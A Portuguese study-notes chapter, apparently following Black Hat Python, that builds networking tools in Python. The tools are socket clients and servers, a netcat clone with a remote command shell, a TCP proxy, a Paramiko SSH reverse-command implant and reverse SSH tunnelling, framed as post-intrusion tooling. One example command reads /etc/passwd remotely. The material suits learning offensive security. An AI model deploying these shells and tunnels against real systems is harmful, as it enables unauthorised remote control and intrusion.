


# Capitulo 2 

## Ferramentas básicas de rede

Nesse capítulo, o autor explora ferramentas comuns de rede, mas feitas em Python. A inspiração é: você invadiu uma empresa, mas na máquina que você está não tem nenhuma ferramenta de rede (Netcat, Wireshark, etc), mas tem Python.

Nesse capítulo usaremos a lib `socket` do Python. A sua documentação está [aqui](https://docs.python.org/3/library/socket.html).

### Um breve resumo sobre redes Python

Nessa parte, o autor contextualiza sobre o protocolo [TCP](https://pt.wikipedia.org/wiki/Protocolo_de_Controle_de_Transmiss%C3%A3o) (Transmission Control Protocol) e sobre o protocolo [UDP](https://pt.wikipedia.org/wiki/Protocolo_de_datagrama_do_usu%C3%A1rio) (User Datagram Protocol).

O primeiro passo é criar alguns clientes e servidores simples.

### Cliente TCP

Vamos criar um cliente TCP, ou seja, um código de comunicação entre o cliente e algum servidor por TCP:

```py
import socket

target_host = "www.google.com"
target_port = 80

# Cria-se um objeto socket
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conexão
client.connect((target_host,target_port))

# Envio de dados
client.send(b"GET / HTTP/1.1\r\nHost: google.com\r\n\r\n")

# Recebimento de dados
response = client.recv(4096)

print(response.decode())
client.close()
```

A explicação do código, em complemento aos comentários é:

Na instanciação da classe `socket`:
- `AF_INET`, é uma constante que indica que o endereço/hostname IPv4 padrão (AF = Address Family). Caso fosse IPv6, usaríamos `AF_INET6`
- `SOCK_STREAM`, é uma constante que indica que iremos nos comunicar com TCP. Sua variante poderia ser `SOCK_DGRAM`, que indicaria uma conexão UDP.

- `(target_host,target_port)` estão concatenados pois é a tupla que forma o objeto `_Addr`

- `client.send(b"GET / HTTP/1.1\r\nHost: google.com\r\n\r\n")`, o `b"` antes da string de mensagem indica que iremos mandar a mensagem em como *bytes*.

- `response = client.recv(4096)`, indica que receberemos uma mensagem de "4096" caracteres. É o tamanho do buffer desejado.


Esse é um cliente básico de TCP. Ele assume que a conexão com o host está aberta para enviar as mensagens, que ele está esperando que nós enviemos as mensagens primeiro e que o servidor sempre nos retornará dados de maneira oportuna. Ao passar do livro teremos mais técnicas mais avançadas para complementar esse cliente.

### Cliente UDP

Seguindo a lógica do cliente acima, o código para o cliente UDP é:

```py
import socket

target_host = "127.0.0.1"
target_port = 9997

# Cria-se um objeto socket
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Envia-se os dados
client.sendto(b"AAABBBCCC", (target_host,target_port))

# Recebe alguns dados
data, addr = client.recvfrom(4096)

print(data.decode())
print(addr)
client.close()
```

Note que a conexão não é linkada como no TCP, pois a conexão UDP não espera um host sempre ligado. Logo, ao invés de um client via `connect`, é usado um `sendto`, com a mensagem e o host. Mesma lógica para o `recvfrom`:



Note que, para ver o código funcionando, é necessário que o Host esteja preparado para receber a mensagem na porta indicada. Para isso foi usado um `netcat` (`nc -ulp 9997` com as flags `-u` para conexão UDP, `-l` para *listen* e `-p 9997` para a porta), Ao apertar `enter` na conexão UDP, após o recebimento da mensagem, foi possível receber no terminal de execução do Python a mensagem "enter" como resposta e printar o host.


### Servidor TCP

Agora com esses fundamentos de conexões, criaremos um servidor TCP. Isto é, código que, quando rodado, mexa com conexões TCP:

```py
import socket
import threading

# Definição do endereço em que queremos que a porta execute
IP = '0.0.0.0'      # o IP 0.0.0.0 indica que todas as interfaces de rede locais na determinada porta vêm para o server
PORT = 9998

def main():
    # Início do server
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    # O bind coloca a dada porta para uso
    server.bind((IP,PORT))
    # Número máximo de conexões deve ser 5
    server.listen(5)
    print(f'[*] Ouvindo em {IP}:{PORT}')

    while True:
        # Aceita a conexão. "client" instancia um client no código para comunicar com o "address" de onde vem a conexão
        client, address = server.accept() 
        print(f'[*] Conexão aceita de: {address[0]}:{address[1]}')
        # Inicia uma thread para fazer a comunicação
        client_handler = threading.Thread(target=handle_client, args=(client,))
        client_handler.start()

def handle_client(client_socket):
    with client_socket as sock:
        # Recebe as mensagens e manda o ACK ("acknowledgement")
        request = sock.recv(1024)
        print(f'[*] Recebido: {request.decode("utf-8")}')
        sock.send(b'ACK')

if __name__ == '__main__':
    main()
```

As explicações estão ao longo do código. Usamos o código TCP anterior para testá-lo (`tcp_client.py`), usando como `target_host` 127.0.0.1 e `target_port` 9998. Ao executar `tcp_client.py` com a mensagem "TESTE", recebemos no terminal de `tcp_server.py`:

```bash
[*] Conexão aceita de: 127.0.0.1:56050
[*] Recebido: TESTE
```

E, no terminal de `tcp_client.py`:

```bash
ACK
```

O próximo passo, agora com ferramentas de conexão em mãos, é criar um [Proxy](https://en.wikipedia.org/wiki/Proxy_server)!

### Substituindo o Netcat

Agora começaremos o desenvolvimento do netcat, uma ferramenta quase que universal e indispensável no contexto de Redes para segurança. Primeiramente vamos criar uma forma de executar comandos no terminal quando recebemos-os no Python:

```py
# Imports gerais, não são todos usados nesse código
import argparse
import socket
import shlex
import subprocess
import sys
import textwrap
import threading

# Função execute
def execute(cmd):
    # Divide o input em várias subdivisões
    cmd = cmd.strip()
    if not cmd:
        return 

    # subprocess.check_output executa um shell como se fosse no terminal. 
    # stderr=subprocess.STDOUT indica que as mensagens de erro devem vir no próprio output
    output = subprocess.check_output(shlex.split(cmd), stderr=subprocess.STDOUT)
    return output.decode()

if __name__ == '__main__':
    print(execute("ls"))
```

Vale ressaltar que, do jeito que está, o código funciona apenas no Linux devido a como o Windows trata comandos `shell`. Uma adaptação poderia ser:

```py
import argparse
import socket
import shlex
import subprocess
import sys
import textwrap
import threading


def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return 

    # Verifica o OS
    if sys.platform.startswith('win'):
        output = subprocess.check_output(shlex.split(cmd), 
                                        stderr=subprocess.STDOUT,
                                        shell=True)     # Aceita comandos Shell
        # Faz o decode com base no que vem do Windows
        return output.decode('cp1252')
    
    # Roda normal
    output = subprocess.check_output(shlex.split(cmd), 
                                    stderr=subprocess.STDOUT,
                                    )
    return output.decode()

if __name__ == '__main__':
    print(execute("dir"))
```

Em sequência, modificamos a `__main__` para servir como "guia" do netcat. Para isso será usada a `lib` ArgumentParser, que serve para fazer a interpretação dos argumentos quando o código é chamado.:

```py
if __name__ == '__main__':
    # Instanciação do parser
    parser = argparse.ArgumentParser(
        # Nome
        description='Netcat Python',
        # Tipo = Help
        formatter_class=argparse.RawDescriptionHelpFormatter,
        # Epílogo (final do --help) com um exemplo
        epilog=textwrap.dedent('''Exemplo: 
            netcat.py -t 192.168.1.108 -p 5555 -l -c                    # shell de comando
            netcat.py -t 192.168.1.108 -p 5555 -l -u=mytext.txt         # upload de arquivo
            netcat.py -t 192.168.1.108 -p 5555 -e= \"cat /etc/passwd\"   # executar comando
            echo 'ABC' | ./netcat.py -t 192.168.1.108 -p 135            # enviar texto para a porta 135
                                                             
            netcat.py -t 192.168.1.108 -p 5555                          # conectar ao servidor            
        '''))

    # Argumentos que podem ser passados

    # action='store_true' significa que o valor é um booleano e que, por padrão, é False
    parser.add_argument('-c', '--command', action='store_true', help='shell de comando')
    parser.add_argument('-e', '--execute', help='executar comando especificado')
    parser.add_argument('-l', '--listen', action='store_true', help='ouvir')
    # Define tipos e valor padrão
    parser.add_argument('-p', '--port', type=int, default=5555, help='porta especificada')
    parser.add_argument('-t', '--target', default='192.168.1.203', help='IP alvo')
    parser.add_argument('-u', '--upload', help='receber um upload de arquivo')

    # args é um array que armazena os argumentos usado
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read() # buffer é o que está no input
    
    # Usa os argumentos e o buffer para instancia o uso da classe NetCat
    nc = NetCat(args, buffer.encode()) 
    nc.run()
```

Sobre a classe NetCat, temos a seguinte estrutura inicial:

```py
class NetCat:
    def __init__ (self, args, buffer=None):
        # Instancia os argumentos, buffer e cria o socket
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # socket.setsockopt é um modificador de opções do socket
        # no caso, estamos mudando a opção SOL_SOCKET (opções no nível do socket)
        # colocamos o parametro REUSEADDR para 1, isso implica que o socket pode ser
        # reaberto imediatamente após ser fechado, mesmo caso ele esteja em "estado de espera"
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    
    # Função principal
    def run(self):
        # caso se queira escutar, executa a função listen()
        if self.args.listen:
            self.listen()
        else:
        # caso contrário, executa a função send()
            self.send()
```


Criando o método `send()`, usaremos o mesmo princípio do cliente TCP:

```py
    def send(self):
        # Cria a conexão do socket
        self.socket.connect(self.args.target, self.args.port)
        if self.buffer:
            # Se houver mensagens no buffer inicial, envia
            self.socket.send(self.buffer)
        
        try:
            while True:
                recv_len = 1
                response = ''
                while recv_len:
                    # Recebe uma resposta
                    data = self.socket.recv(5)
                    recv_len = len(data)
                    response += data.decode()
                    # Quando finalizar a resposta, acaba
                    if recv_len < 5:
                        break
                # Responde ao usuário
                if response:
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode())
                    
        # O loop de conversa continua até o usuário interromper
        except KeyboardInterrupt:
            print("Interrompido pelo usuário")
            self.socket.close()
            sys.exit()
```

Para a função `listen()`:

```py
    def listen (self):
        # Assim como no cliente, o bind é feito para a escuta
        self.socket.bind((self.args.target, self.args.port))
        # Escuta no máximo até 5 conexões
        self.socket.listen(5)
        while True:
            # Ao receber uma conexão, retorna um socket conectado
            client_socket, _ = self.socket.accept()
            # Usa o handle para executar as mensagens
            client_thread = threading.Thread(
                target=self.handle, args=(client_socket,)
            )
            client_thread.start()
```

Vale ressaltar que a função `handle()` que será feita em seguida, serve para o uso geral das demais funções do NetCat:

- `execute`: Envia o output da execução do comando usado como argumento para o target
- `upload`: Coloca tudo o que está sendo escutado do alvo em um arquivo
- `command`: Permite que, com a conexão feita, o target execute comandos da máquina dele para a do usuário

```py
def handle(self, client_socket):
        if self.args.execute:
            # Executa o comando e envia o output para o target
            output = execute(self.args.execute)
            client_socket.send(output.encode())
        
        if self.args.upload:
            file_buffer = b''
            while True:
                # Espera as mensagens 
                data = client_socket.recv(20)
                file_buffer += data
                if len(data) < 20:
                    break
            # Salva o que foi recebido em um arquivo e o que for escrito será interpretado como bytes (wb), 
            # por isso não é feito o decode
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Upload salvo em {self.args.upload}'
            client_socket.send(message.encode())

        if self.args.command:
            cmd_buffer = b''
            while True:
                try:
                    # Espera os comandos do alvo 
                    client_socket.send(b'cmd: #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    # Executa
                    response = execute(cmd_buffer.decode())
                    if response:
                        client_socket.send(response.decode())
                    cmd_buffer = b''

                except Exception as e:
                    print(f'Servidor encerrado: {e}')
                    self.socket.close()
                    sys.exit()
```

### Explorando o código

Pronto, agora com o NetCat funcional, serão feitos alguns testes! ATENÇÃO, NÃO É UM TELNET

### Criando um proxy TCP

O que é um proxy? Um proxy é um interceptador de comunicação de pacotes. Essencialmente ele deve ser capaz de:

1. Interceptar comunicação (mostrar ao usuário)
2. Modificar o pacote à maneira desejada
3. Gerencia direncionamento de tráfego

Inicialmente, aborda-se a função `hexdump`, para exibir a comunicação acontecendo. Primeiramente criamos um filtro chamado `HEX_FILTER`:

```py
HEX_FILTER = ''.join([chr(i) if len(repr(chr(i))) == 3 else '.' for i in range(256)])
```

Esse filtro funciona da seguinte maneira:

- Primeiramente, `''.join()` concatena todos as passagens de uma determinada lista para uma string:
    - Exemplo: 
    ```py
        lista = ['a', 'b', 'c']
        resultado = '-'.join(lista)
        print(resultado)  # Saída: 'a-b-c'
    ```
- O racional por trás do filtro é:
    - Convertendo um número de 0 a 256 (`i in range(256)`, que são representações dos caracteres ASCII), se, 
        - ao vermos o caractere correspondente (`chr(i)`, ex: `chr(97)` = `a`) e analisarmos a sua representação (`repr()`, ex: `repr(a)` = `'a'`, `repr(\n)` = `'\\n'`), 
        - se ele tiver tamanho 3 (`len() == 3`, ex: `'a'` tem `'`, `a` e `'` = 3,  `'\\n'` tem `'`, `\`, `n` e `'` = 4,), 
        
    Ele é um caractere "printável" como letra/número/símbolo (não EOF ou ENTER). Caso ele seja printável, printa o próprio caractere, se não, printa `.`

Isso assegura que seja possível ler de maneira "segura" todos os caracteres de uma string.

Em seguida, criando a função `hexdump`:

```py
# Recebe uma mensagem, o comprimento dela de hexadecimal (16) e a opção de mostrar
def hexdump(src, length=16, show=True):
    # Caso a mensagem esteja em bytes, ela é decodada
    if isinstance(src,bytes):
        src = src.decode()

    # Cria uma lista para iterar a mensagem em várias linhas
    results = list()

    # Para o tamanho da mensagem dada 
    # range (start, stop, step) significa que até o completar o tamanho de `src` (stop), 
    # i vai pular de `length` em `length`
    for i in range(0, len(src), length):
        # palavra é vista em seus `length` de tamanho
        word = str(src[i:i+length])

        # a palavra é filtrada para caracteres printáveis
        printable = word.translate(HEX_FILTER)
        # ord(c) converte um char para o seu ASCII, :X transforma o ASCII em Hexa
        # e 02 faz com que seja um caractere de 2 dígitos
        hexa = ' '.join([f'{ord(c):02X}' for c in word])
        # O comprimento do hexa é multiplicado por 3, para que haja espaço 'XX ', os numeros hexa mais espaço
        hexwidth = length*3
        # gera uma linha com o índice i em hexa de 4 digitos, o hexa (com alinhamento para esquerda <) e a string printavel convertida
        results.append(f'{i:04x}    {hexa:<{hexwidth}}  {printable}')
    
    if show:
        for line in results:
            # Printa os resultados
            print(line)
    else:
        return results
```

Agora faremos o que, de fato, fará a conexão entre hosts (`recieve_from`):

```py
# Recebe um socket
def recieve_from(connection):
    buffer = b""
    # Gera um timeout
    connection.settimeout(5)

    # Tenta receber até que não hajam mais dados
    try:
        while True:
            data = connection.recv(4096)
            if not data:
                break
            buffer += data

    except Exception as e:
        pass
    
    return buffer
```

Para a modificação de pacotes da conexão são abstraídas duas funções para modificar pacotes:

```py
# Podem ser usadas eventualmente
def request_handler(buffer):
    return buffer
def response_handler(buffer):
    return buffer
```

Agora, criaremos o proxy em si:

```py
# Recebe o socket do cliente ("local") e os dados da conexão remota
def proxy_handler(client_socket, 
                  remote_host, remote_port,
                  recieve_first): # recieve_first é para casos que a primeira mensagem já seja uma resposta
    
    # Cria conexão
    remote_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    remote_socket.connect((remote_host,remote_port))

    # Recebe a primeira conexão, printa e passa ao eventual handler dela
    if recieve_first:
        remote_buffer = recieve_from(remote_socket)
        hexdump(remote_buffer)
    
        remote_buffer = response_handler(remote_buffer)

        # Envia o novo buffer
        if len(remote_buffer):
            print("[<==] Enviando %d bytes para o localhost" % len(remote_buffer))
            client_socket.send(remote_buffer)

    # Loop de conexão com o host remoto
    while True:
        local_buffer = recieve_from(client_socket)
        if len(local_buffer):
            line = "[==>] Recebidos %d bytes do localhost" % len(local_buffer)
            print(line)
            hexdump(local_buffer)
        
        remote_buffer = recieve_from(remote_socket)

        if len(remote_buffer):
            print("[<==] Enviando %d bytes para o localhost" % len(remote_buffer))
            hexdump(remote_buffer)

            remote_buffer = response_handler(remote_buffer)
            client_socket.send(remote_buffer)
            print("[<==] Enviado para o localhost")

        # Sem respostas, fecha as conexões
        if not len(local_buffer) or not len(remote_buffer):
            client_socket.close()
            remote_socket.close()
            print("[*] Não há mais dados. Fechando conexões")
            break
```

O próximo passo agora é criar o loop do servidor, ou seja, uma forma de criar o socket local, escutá-lo e, enfim, fazer o proxy:

```py
def server_loop(local_host, local_port,
                remote_host, remote_port,
                recieve_first):
    
    # Inicia o socket do servidor
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        # Cria uma conexão com o localhost
        server.bind((local_host,local_port))
    except Exception as e:
        print("Problema ao conectar: %r" % e)
        print("[!!] Falha ao ouvir em %s:%d" % (local_host,local_port))
        print("[!!] Verifique outros sockets de escuta ou corrija as permissões")
        sys.exit(0)
    
    print("[*] Ouvindo em %s:%d" % (local_host,local_port))
    server.listen(5)
    while True:
        # Inicia a escuta do localhost, determinando qual o endereço ele está comunicando, para usar seu socket
        client_socket, addr = server.accept()
        line = "> Conexão de entrada recebida de %s:%d" % (addr[1],addr[0])
        print(line)

        # Inicia a thread com os argumentos passados
        proxy_thread = threading.Thread(
            target=proxy_handler,
                   args=(client_socket, remote_host, remote_port, recieve_first)
                    )
        proxy_thread.start()
```

Finalmente, cria-se a `main()` para executar o proxy:

```py    
def main():
    # Strings de instrução de uso. O código só é executado quando todos os argumentos são preenchidos
    if len(sys.argv[1:]) != 5:
        print("Uso: ./proxy.py [localhost] [localport]", end='')
        print(" [remotehost] [remoteport] [recieve_first]")
        print("Exemplo: ./proxy.py 127.0.0.1 9000 10.12.132.1 9000 True")

    # Define as variáveis
    local_host = sys.argv[1]
    local_port = int(sys.argv[2])

    remote_host = sys.argv[3]
    remote_port = int(sys.argv[4])

    recieve_first = sys.argv[5]

    if 'True' in recieve_first:
        recieve_first = True
    else:
        recieve_first = False
    # Executa o loop
    server_loop(local_host, local_port, remote_host, remote_port, recieve_first)

if __name__ == '__main__':
    main()
```

### Explorando o código

Para testar, podemos usar um `curl -x 127.0.0.1:9000 www.google.com` com um `python3 proxy.py 127.0.0.1 9000 www.google.com 80 False`

### SSH com Paramiko

O SSH (Secure Shell Host) é uma forma de tomar controle do terminal de um host remoto. Nos sistemas Windows ele não vem naturalmente instalado, logo é vista uma necessidade de sabermos criar nosso próprio SSH. O Paramiko é uma lib que oferece um acesso simples ao protocolo SSH2. Instalaremos ele através de:

`pip install paramiko`

E iniciaremos o código com a criação da função `shell_command()` e da `main()`:


```py
# Import do paramiko
import paramiko

def ssh_command(ip, port, user, password, cmd):
    # Instanciação do client
    client = paramiko.SSHClient()
    # Como o ambiente é controlado, aceitamos a chave SSH do servidor SSH que iremos nos conectar
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(ip, port=port, username=user, password=password)

    # Executa o comando e retorna stdin, stdout e stderr. Como sabemos o que passaremos no comando, stdin é inútil 
    _, stdout, stderr = client.exec_command(cmd)
    output = stdout.readlines() + stderr.readlines()

    if output:
        print("--- Saída ---")
        for line in output:
            # Output: `strip()` serve para remover espaços em excesso
            print(line.strip())

if __name__ == '__main__':
    # getpass é uma lib para receber o usuario e senha atual, no python executado
    import getpass
    # O usuário pode ser o mesmo no ambiente, caso seja usa-se o getuser, que pede ao usuário o user desejado. Os dois métodos fazem a mesma coisa
    # user = getpass.getuser()
    user = input("Username: ")
    # Pede o usuário a senha desejada de forma invisível no terminal
    password = getpass.getpass()

    ip = input('Insira o IP do servidor: ') or '127.0.0.1'
    port = input('Insira a porta ou <CR>: ') or 9000
    cmd = input('Insira o comando ou <CR>: ') or 'id'
    ssh_command(ip, port, user, password, cmd)
```

Após testarmos (verifique se o computador está rodando o ssh via `sudo systemctl status ssh` e ative-o via `sudo systemctl start ssh` e start on boot por `sudo systemctl enable ssh`) verificou-se que está tudo certo.

Agora, modificaremos o script para executar comandos num sistema Windows, adaptando o código para casos onde o cliente SSH não existe no OS alvo. Em `ssh_rcmd.py`:

```py
import paramiko
import shlex
import subprocess


def ssh_command(ip, port, user, password, command):
    # Conexão análoga à anterior
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(ip, port=port, username=user, password=password)

    # Agora, será aberta uma sessão SSH na camada de transporte, como uma janela para receber SSH
    ssh_session = client.get_transport().open_session()
    
    if ssh_session.active:
        # Assim que a janela é aberta, é enviado o command (inicialmente 'ClinetConnected')
        ssh_session.send(command)
        # Recebe o feedback
        print(ssh_session.recv(1024).decode())

        while True:
            # Recebe o novo comando, de fato
            command = ssh_session.recv(1024)
            try:
                cmd = command.decode()
                if cmd == 'exit':
                    client.close()
                    break
                # Executa o comando e espera o output, envia qualquer string para o outro usuário
                cmd_output = subprocess.check_output(cmd, shell=True)
                ssh_session.send(cmd_output or 'okay')
            except Exception as e:
                ssh_session.send(str(e))
            
        client.close()
    return

if __name__ == '__main__':
    import getpass
    user = input("Username: ")
    # user = getpass.getuser()
    password = getpass.getpass()

    ip = input('Insira o IP do servidor: ')
    port = input('Insira a porta ou <CR>: ')
    
    ssh_command(ip, port, user, password, 'ClientConnected')
```

O código acima é uma sessão SSH, ou seja, uma conexão entre o servidor SSH (que faremos em seguida) e a máquina atual. Ela deve ser executada na máquina do usuário com o servidor executando na máquina remota. Para o servidor SSH (`ssh_server.py`):

```py
import paramiko
import os
import socket
import sys
import threading

# Acha o caminho que está sendo executado o arquivo
CWD = os.path.dirname(os.path.realpath(__file__))
# Acha o arquivo que tem uma chave RSA
HOSTKEY = paramiko.RSAKey(filename=os.path.join(CWD, 'chave.key'))

class Server (paramiko.ServerInterface):
    # Thread para execução
    def __init__ (self):
        self.event = threading.Event()

    # Procura as sessions a serem conectadas
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
    
    # Valida o usuário e a senha usadas
    def check_auth_password (self, username, password):
        if (username == 'caio') and (password == 'caio'):
            return paramiko.AUTH_SUCCESSFUL
            
if __name__ == '__main__':
    # Deve ser o IP local
    server = '192.168.100.3'
    # Porta arbitrária
    ssh_port = 2222
    
    try:
        # Início do socket, como no TCP e associação a um socket de SSH
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind((server, ssh_port))
        
        sock.listen(100)
        print("[+] Ouvindo conexões...")
        client, addr = sock.accept()
    except Exception as e:
        print("[-] Falha na escuta:" + str(e))
        sys.exit(1)
    else:
        print('[+] Conexão estabelecida!', client, addr)
        
    # Cria uma sessão no paramiko usando o cliente de onde o bind foi feito
    session = paramiko.Transport(client)
    # Adiciona a chave para a conexão
    session.add_server_key(HOSTKEY)
    server = Server()
    session.start_server(server=server)
    
    chan = session.accept(20)
    if chan is None:
        print('*** Sem canal.')
        sys.exit(1)
        
    print("[+] Autenticado!")
    print(chan.recv(1024))
    chan.send('Bem vindo ao SSH')
    try:
        # Loop de comandos, podem ser executados arbitrariamente
        while True:
            command = input('Insira o comando: ')
            if command != 'exit':
                chan.send(command)
                r = chan.recv(8192)
                print(r.decode())
            else:
                chan.send('exit')
                print('exiting')
                session.close()
                break
    except KeyboardInterrupt:
        session.close()
```

Algumas observações:
    - Para criar uma chave RSA, como no caso acima, pode-se usar `ssh-keygen -t rsa -b 2048 -f chave.key` e não colocar nenhuma "palavra-passe". Para enviá-la via server pode-se usar o upload do nosso `netcat.py` ou pegar uma da internet. Basta apenas que ela seja válida.
    - O usuário e a senha podem não ser os logados
    - O Host deve ser mudado dependendo do IP da máquina
    - O uso de um `paramiko.util.log_to_file('paramiko.log')` pode ser útil para debug

Agora, finalmente, criaremos uma nova sesssão e um novo server:
    - O server deve ser executado no host atual, que executará comandos na máquina alvo
    - A sessão deve ser executada na máquina-alvo

### Explorando o código

Tudo foi testado com os códigos feitos!

### Tunelamento SSH

Nesse último trecho do capítulo, faremos um tunelamento SSH, que nada mais é que um encaminhamento de SSH através de uma máquina para outra:



Observe que, na imagem, o usuário não tem acesso direto ao servidor (base de dados). Contudo, ao fazer um túnel, acessaremos o SSH de uma máquina na rede local e, através dela, conectaremos ao servidor.

À priori, chega a ser difícil a aplicabilidade do tunelamento SSH direto, como na imagem, uma vez que os clientes Windows geralmente apresentam por padrão um cliente SSH rodando. Contudo, o código que estudaremos é um tunelamneto reverso, que, na verdade, faz com que o próprio cliente tente se conectar com a nossa máquina, criando uma "ponte" na rede.

Para começarmos, pegaremos um arquivo chamado `rforward.py`, da própria biblioteca do Paramiko, e o entenderemos.

Na função `main()`:

```py
def main():
    # Captura os dados colocados pelo parser
    options, server, remote = parse_options()

    # Captura uma senha
    password = None
    if options.readpass:
        password = getpass.getpass("Enter SSH password: ")

    # Inicia o cliente SSH
    client = paramiko.SSHClient()
    client.load_system_host_keys()
    client.set_missing_host_key_policy(paramiko.WarningPolicy())

    verbose("Connecting to ssh host %s:%d ..." % (server[0], server[1]))
    try:
        # Conexão feita através das opções dadas
        client.connect(
            server[0],
            server[1],
            username=options.user,
            key_filename=options.keyfile,
            look_for_keys=options.look_for_keys,
            password=password,
        )
    except Exception as e:
        print("*** Failed to connect to %s:%d: %r" % (server[0], server[1], e))
        sys.exit(1)

    verbose(
        "Now forwarding remote port %d to %s:%d ..."
        % (options.port, remote[0], remote[1])
    )

    try:
        # Chama a função de reverse foward, passando as configurações de conexão e a camada de transporte do cliente
        reverse_forward_tunnel(
            options.port, remote[0], remote[1], client.get_transport()
        )
    except KeyboardInterrupt:
        print("C-c: Port forwarding stopped.")
        sys.exit(0)
```

Agora, na função `reverse_forward_tunnel()`:

```py

def reverse_forward_tunnel(server_port, remote_host, remote_port, transport):
    # Na camada de transporte do cliente, ele chama a função de port foward (que em si envia o tráfego)
    # Ela é responsável por criar esse canal entre a porta do servidor com um possível host
    transport.request_port_forward("", server_port)
    while True:
        chan = transport.accept(1000)
        if chan is None:
            continue
        # Na Thread de execução, é chamado o handler que irá conectar, de fato, com o host remoto
        thr = threading.Thread(
            target=handler, args=(chan, remote_host, remote_port)
        )
        thr.setDaemon(True)
        thr.start()
```

Para fechar, na função `handler()`:

```py

def handler(chan, host, port):
    sock = socket.socket()
    try:
        # Cria um socket para o host alvo
        sock.connect((host, port))
    except Exception as e:
        verbose("Forwarding request to %s:%d failed: %r" % (host, port, e))
        return

    verbose(
        "Connected!  Tunnel open %r -> %r -> %r"
        % (chan.origin_addr, chan.getpeername(), (host, port))
    )
    while True:
        # Este trecho de select funciona da seguinte forma: 
        # readable, writable, exceptional = select.select(read_list, write_list, except_list[, timeout])
        # Ele basicamente verifica se os dados de sock e chan estão prontos para leitura, já que estão na variável
        # 'READABLE`

        r, w, x = select.select([sock, chan], [], [])
        # Encaminha os dados de um para o outro, verificando se o socket está pronto para leitura
        if sock in r:
            # Recebe os dados do socket (que é o host remoto)
            data = sock.recv(1024)
            if len(data) == 0:
                break
            # Encaminha para o nosso channel (camada de transporte do SSH, que é o servidor)
            chan.send(data)
        if chan in r:
            # Recebe dados do channel (vindos do servidor)
            data = chan.recv(1024)
            if len(data) == 0:
                break
            # Envia para o socket
            sock.send(data)
    chan.close()
    sock.close()
    verbose("Tunnel closed from %r" % (chan.origin_addr,))
```

Para usá-lo, deve-se conectar na máquina Windows, mirando no host remoto para o cliente SSH e, por fim, no servidor desejado como server.

### Explorando o código

Excepcionalmente, confiei nos testes do livro pois estava sem tempo para testar, já que o código é do próprio Paramiko.

## FIM

Agora com o Capítulo 2 em mãos, é notável que as ferramentas desenvolvidas são muito úteis quando se trata de redes para segurança. Nos próximos capítulos serão abordados tópicos mais complexos mas, com certeza, os desse capítulo vêm a agregar.
